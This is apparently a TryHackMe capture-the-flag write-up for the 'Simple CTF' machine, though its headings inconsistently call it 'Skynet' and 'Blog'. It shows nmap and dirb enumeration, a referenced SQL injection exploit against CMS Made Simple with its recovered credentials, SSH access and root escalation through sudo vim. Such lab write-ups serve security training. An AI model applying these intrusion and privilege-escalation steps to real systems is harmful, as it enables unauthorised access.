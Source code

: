 ```yaml
---
title: "Simple CTF machine on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/simple_ctf.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used."
description: "Walkthrough on Blog machine from TryHackMe"
categories:
  - writeups
tags:
  - Simple
  - CMS
  - THM
  - CTF
  - mysql
  - writeup
  - TryHackMe
  - Easy
toc: false
---
```

# Skynet CTF

<img src="/assets/images/posts/writeups/simple_ctf.jpg" alt="Blog" width="500" class="align-center">

A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used.

## Information gathering

### Enumeration

#### Nmap

Command:
```sh
nmap -sC -sV 10.10.169.41
```

Results
```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can\'t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.35.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Since port 1000 is not displayed a new scan is needed: add UDP (-sU) and TCP SYN scan (-sS) plus specific port number

Command:
```sh
sudo nmap -sS -sV -sU -p 1000 10.10.169.41
```

Results
```sh
PORT     STATE         SERVICE VERSION
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

#### Dirb

Command:
```sh
dirb http://10.10.169.41/ -w /usr/share/wordlists/dirb/common.txt
```

Results
```sh
---- Scanning URL: http://10.10.169.41/ ----
+ http://10.10.169.41/index.html (CODE:200|SIZE:11321)
+ http://10.10.169.41/robots.txt (CODE:200|SIZE:929)
+ http://10.10.169.41/server-status (CODE:403|SIZE:300)
==> DIRECTORY: http://10.10.169.41/simple/
---- Entering directory: http://10.10.169.41/simple/ ----
==> DIRECTORY: http://10.10.169.41/simple/admin/
==> DIRECTORY: http://10.10.169.41/simple/assets/
==> DIRECTORY: http://10.10.169.41/simple/doc/
+ http://10.10.169.41/simple/index.php (CODE:200|SIZE:19913)
==> DIRECTORY: http://10.10.169.41/simple/lib/
==> DIRECTORY: http://10.10.169.41/simple/modules/
==> DIRECTORY: http://10.10.169.41/simple/tmp/
==> DIRECTORY: http://10.10.169.41/simple/uploads/   
```

## Exploitation

### Foothold
1. Checking the link  http://10.10.169.41/simple/ leads to an application called CMS made simple v 2.2.8 
2. Application is vulnerable to SQLi https://www.exploit-db.com/exploits/46635
3. Use the python script to exploit the vulnerability found you will get
``` sh
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

#### Data exfiltration

1. Using user *mitch* and password *secret* connect to SSH custom port (2222) found with nmap
``` sh
ssh mitch@10.10.108.231 -p 2222
```
2. Get user fag: *[UserFlag]*

### Privilege escalation
1. Check sudo privileges
``` sh
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

#### Data exfiltration
1. Using the upper privileged vim you can get the root flag
``` sh
sudo /usr/bin/vim /root/root.txt
```